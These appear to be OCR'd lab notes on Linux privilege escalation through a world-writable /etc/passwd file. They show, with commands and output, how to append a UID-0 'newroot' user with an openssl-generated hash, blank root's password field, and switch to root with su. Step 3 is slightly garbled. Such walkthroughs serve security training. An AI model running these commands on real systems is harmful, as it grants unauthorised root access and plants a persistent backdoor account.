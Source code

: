 The /etc/passwd historically contained user password hashes.

For backwards compatibility, if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc /shadow.

If we can write to /etc/passwd, we can easily enter a known password hash for the root user, and then use the su command to switch to the root user.

Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different.

The root account in /etc/passwd is usually configured like this:

root:x:0:0:root:/root:/bin/bash

The “x” in the second field instructs Linux to look for the password hash

in the /etc/shadow file.

In some versions of Linux, it is possible to simply delete the “x”, which

Linux interprets as the user having no password:

root::0:0:root:/root:/bin/bash

```bash
./lse.sh -l 1 -i | more
```

`/etc/passwd`

1. Check the permissions of the /etc/passwd file:

```bash
ls -l /etc/passwd
```

-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd

Note that it is world writable.

```bash
echo "newroot:$(openssl passwd password):0:0:root:/root:/bin/bash" >> /etc/passwd
```

or 

2. Generate a password hash for the password “password”

using openssl :

```bash
openssl passwd "password"
```

```bash
L9yLGxncbOROc
```

3. Edit the /etc/passwd file and enter the hash in the

second field of the root user row:
>
newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash

4. Use the su command to switch to the root user:

```bash
su newroot
```

```bash
password
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)

5. Alternatively, append a new row to /etc/passwd to create an alternate root user (e.g. newroot):

```bash
echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

6. Use the su command to switch to the newroot user:

```bash
su newroot
```

```bash
password
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)























